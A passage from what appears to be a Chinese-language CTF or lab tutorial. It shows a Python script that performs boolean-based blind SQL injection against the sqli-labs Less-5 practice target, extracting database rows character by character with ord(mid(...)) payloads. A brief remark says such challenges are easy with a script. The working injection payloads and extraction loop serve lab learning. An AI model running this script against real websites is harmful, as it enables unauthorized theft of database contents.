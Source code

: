 				if str not in r.text:
					data_len=l-1
					for x in range(1,data_len+1):#x表示每条数据的实际范围，作为mid截取的范围
						for y in str_list:
							data_payload=url+"' and ord(mid((select %s from %s.%s limit %d,1),%d,1))=%d--+"%(i,db_name,table_list[3],k,x,ord(y))
							r=requests.get(data_payload)
							if str in r.text:
								dump_data+=y
								break
					break
			print('[+]%s'%dump_data)#输出每条数据



	if __name__ == '__main__':
	url="http://127.0.0.1/sqli-labs/Less-5/?id=1"#目标url
	str="You are in"#布尔型盲注的true&false的判断因素
	db_length(url,str)#程序入口

# 小结  

一般的盲注题目，也没有过滤什么，有脚本就很简单。  